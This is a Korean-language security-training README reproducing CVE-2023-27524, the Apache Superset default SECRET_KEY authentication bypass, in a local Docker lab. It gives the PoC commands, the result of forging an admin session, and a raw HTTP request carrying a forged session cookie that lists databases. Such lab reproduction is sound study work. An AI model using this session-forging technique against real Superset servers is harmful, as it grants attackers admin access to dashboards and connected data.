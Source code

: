 # CVE-2023-27524 - Apache Superset 인증 우회 취약점

> 화이트햇 스쿨 3기 (13반) - [박세민 (@8sheeta8)](https://github.com/8sheeta8) 

## 개요

Apache Superset은 데이터 탐색과 시각화를 위한 오픈소스 플랫폼입니다.
Superset은 기본 설정으로 하드코딩된 SECRET_KEY 값을 사용합니다.
관리자가 이 값을 변경하지 않으면, 공격자가 이를 이용해 세션 쿠키를 위조하고 관리자로 로그인할 수 있습니다.
이를 통해 Superset 대시보드, 연결된 데이터베이스에 무단 접근이 가능하며, 추가 취약점과 연계할 경우 원격 코드 실행(RCE)까지 이어질 수 있습니다.

취약 버전: Superset <= 2.0.1
취약점 유형: 인증 우회 (Authentication Bypass)

참고:
- <https://www.horizon3.ai/attack-research/disclosures/cve-2023-27524-insecure-default-configuration-in-apache-superset-leads-to-remote-code-execution/>
- <https://github.com/horizon3ai/CVE-2023-27524>
  
## PoC GitHub

### 1. Docker를 이용한 취약 환경 구축

```
docker compose up -d
```

Superset 서버가 http://localhost:8088 에서 구동됩니다.


### 2. 의존성 설치

```
# PoC 코드에 필요한 패키지를 설치합니다.

pip install -r requirements.txt
```

### 3. Forged Session 쿠키 생성

```
# PoC 코드를 실행하여 관리자 계정(user_id=1) 세션을 위조합니다.

python CVE-2023-27524.py --url http://localhost:8088 --id 1 --validate
```

실행 결과
기본 SECRET_KEY 사용 (CHANGE_ME_TO_A_COMPLEX_RANDOM_SECRET) 확인

forged session 생성 완료
302 리다이렉션 발생 → 인증 우회 성공 판정

<img width="1280" alt="제목 없음" src="https://github.com/user-attachments/assets/136e9b98-eb68-4ccc-a959-a0b914f95bf7" />

### 4. 인증 우회하여 백엔드 접근

```
# BurpSuite를 통해 forged session으로 API 호출

GET /api/v1/database/ HTTP/1.1
Host: localhost:8088
Cookie: session=eyJfdXNlcl9pZCI6MSwidXNlcl9pZCI6MX0.aA4W5Q.ni44K6wlFydKq4jwQZ0k3JcC6T0
```

정상적으로 200 OK 응답 수신
데이터베이스 리스트 열람 가능

![스크린샷 2025-04-27 205322](https://github.com/user-attachments/assets/3253505d-8ded-49b9-91f0-c0b05751c396)

